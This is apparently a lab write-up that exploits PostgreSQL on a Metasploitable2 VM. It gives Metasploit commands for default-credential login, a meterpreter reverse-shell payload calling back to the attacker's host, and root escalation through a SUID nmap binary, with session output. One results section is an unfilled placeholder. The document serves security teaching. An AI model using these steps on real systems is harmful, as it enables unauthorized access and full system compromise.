


# Exploiting PostgreSQL Database Service

PostgreSQL is a powerful, open-source relational database system widely used in various applications and environments. Instances of PostgreSQL can often be vulnerable due to default configurations, weak credentials, or known software vulnerabilities, potentially allowing unauthorized access to sensitive data or even remote code execution.

In this lab, we will explore methods to exploit the PostgreSQL service running on the Metasploitable2 target machine. Our objective is to gain unauthorized access to the database, which may lead to data exfiltration or system compromise.

We will begin by verifying the service and version with Nmap, then proceed to enumerate its users/credentials or search for specific exploits in Metasploit to gain access.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the PostgreSQL database service on the target machine, which typically runs on port 5432.

* **Commands Executed:**
    ```bash
    sudo nmap -sV -p 5432 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `5432` was open on `192.168.100.10`. The service running on this port was identified as **PostgreSQL DB version 8.3.0 - 8.3.7**.

    

### 2.2: Metasploit Auxiliary Module (Credential Guessing)

* **Objective:** Launch Metasploit and use the `auxiliary/scanner/postgres/postgres_login` module to attempt logging into the PostgreSQL service on `192.168.100.10` using common default credentials.

* **Commands Executed:**
    ```bash
    msfconsole
    search postgres
    use auxiliary/scanner/postgres/postgres_login
    set RHOSTS 192.168.100.10
    set USERNAME postgres
    set PASSWORD postgres
    show options
    run
    ```

* **Results:**
    The search identified several PostgreSQL-related modules, including scanners and exploits. Given the objective of gaining database access, the `auxiliary/scanner/postgres/postgres_login` module was chosen to attempt authentication using common default credentials, as this is a frequent vulnerability on test systems.

    The `postgres_login` module successfully authenticated to the PostgreSQL database using the default credentials `postgres:postgres`. The output `Login Successful: postgres:postgres@template1` confirmed valid access.

    

### 2.3: Initial Access - Leveraging Authenticated Access for a Shell (PostgreSQL Payload)

* **Objective:** Utilize the obtained `postgres:postgres` credentials to execute a reverse shell payload on Metasploitable2 via the PostgreSQL service, aiming for a system shell.

* **Commands Executed:**
    ```bash
    use exploit/linux/postgres/postgres_payload
    set RHOSTS 192.168.100.10
    set PAYLOAD linux/x86/meterpreter/reverse_tcp  # Corrected payload
    set LHOST 192.168.100.5
    set LPORT 4445
    set USERNAME postgres
    set PASSWORD postgres
    show options
    exploit
    ```

* **Results:**
    Initially, the `cmd/unix/reverse` payload was attempted, but it was found to be incompatible with this specific exploit module, resulting in an "Exploit failed: cmd/unix/reverse is not a compatible payload" error. To resolve this, the `show payloads` command was used in Metasploit to list all compatible payloads for `exploit/linux/postgres/postgres_payload`.

    From the list of compatible payloads, `payload/linux/x86/meterpreter/reverse_tcp` was selected. This choice was based on the target system's architecture (Metasploitable2 is a 32-bit Linux system, indicated by `x86`) and the desire for a more robust and feature-rich Meterpreter session, which offers advanced post-exploitation capabilities compared to a basic command shell.

    Upon setting the correct payload and re-running the exploit, a Meterpreter session was successfully established:
    ```
    [*] Started reverse TCP handler on 192.168.100.5:4445
    [*] 192.168.100.10:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
    [*] Uploaded as /tmp/HVoXXFMi.so, should be cleaned up automatically
    [*] Sending stage (1017704 bytes) to 192.168.100.10
    [*] Meterpreter session 1 opened (192.168.100.5:4445 -> 192.168.100.10:37351) at 2025-07-11 20:37:32 -0500

    meterpreter >
    ```

    

### 2.4: Privilege Escalation Enumeration

* **Objective:** Identify potential local misconfigurations or privilege escalation vectors to elevate access from the `postgres` user to root on the Metasploitable2 target.

#### 2.4.1: Identify Current User Privileges

* **Commands Executed:**
    ```bash
    getuid
    id
    ```

* **Results:**
    *(You will insert the actual output from running `getuid` and `id` here.)*
    This confirms the session is running under a non-root user (`postgres`) with limited privileges, indicating the need for privilege escalation.

    

#### 2.4.2: Gather System Information

* **Commands Executed:**
    ```bash
    sysinfo
    ```

* **Results:**
    The kernel version was identified as `2.6.24`, which is known to be vulnerable to multiple local privilege escalation exploits publicly available.

    

#### 2.4.3: Search for SUID/SGID Binaries

* **Commands Executed:**
    ```bash
    shell
    find / -perm -u=s -o -perm -g=s -type f 2>/dev/null
    exit
    ```

* **Results:**
    ```
    /bin/umount
    /bin/fusermount
    /bin/su
    /bin/mount
    /bin/ping
    /bin/ping6
    /sbin/mount.nfs
    /sbin/unix_chkpwd
    /lib/dhcp3-client/call-dhclient-script
    /usr/bin/sudoedit
    /usr/bin/Eterm
    /usr/bin/X
    /usr/bin/bsd-write
    /usr/bin/netkit-rsh
    /usr/bin/ssh-agent
    /usr/bin/gpasswd
    /usr/bin/mlocate
    /usr/bin/crontab
    /usr/bin/traceroute6.iputils
    /usr/bin/sudo
    /usr/bin/netkit-rlogin
    /usr/bin/chage
    /usr/bin/screen
    /usr/bin/expiry
    /usr/bin/arping
    /usr/bin/at
    /usr/bin/xterm
    /usr/bin/newgrp
    /usr/bin/wall
    /usr/bin/chfn
    /usr/bin/nmap
    /usr/bin/chsh
    /usr/bin/netkit-rcp
    /usr/bin/passwd
    /usr/bin/mtr
    /usr/sbin/uuidd
    /usr/sbin/postqueue
    /usr/sbin/postdrop
    /usr/sbin/pppd
    /usr/lib/telnetlogin
    /usr/lib/apache2/suexec
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/pt_chown
    ```
    SUID-enabled binaries such as `/usr/bin/nmap` were identified as a potential vector for privilege escalation if they are outdated and misconfigured.

### 2.5: Privilege Escalation Exploitation (SUID Nmap)

* **Objective:** Exploit the identified SUID-enabled `nmap` binary to escalate privileges to `root`.

* **Commands Executed (from the Meterpreter shell):**
    ```bash
    shell
    /usr/bin/nmap --interactive
    # Inside the interactive prompt:
    !sh
    whoami
    ```

* **Results:**

    A root shell was successfully obtained by leveraging the interactive mode of the SUID-enabled Nmap binary, demonstrating successful privilege escalation.

    

## 3. Conclusion

This lab successfully demonstrated the exploitation of the PostgreSQL database service on the Metasploitable2 target, initially gaining a Meterpreter session as the `postgres` user using default credentials. Subsequently, a critical local privilege escalation was performed by abusing a misconfigured SUID-enabled `nmap` binary, leading to a root-level shell.

This exercise highlights the severe security risks associated with default credentials, outdated software, and improper file permissions (like SUID binaries) on unpatched systems. It underscores the importance of thorough enumeration, not just for initial access, but also for identifying privilege escalation paths during post-exploitation, which is a vital skill for any cybersecurity professional.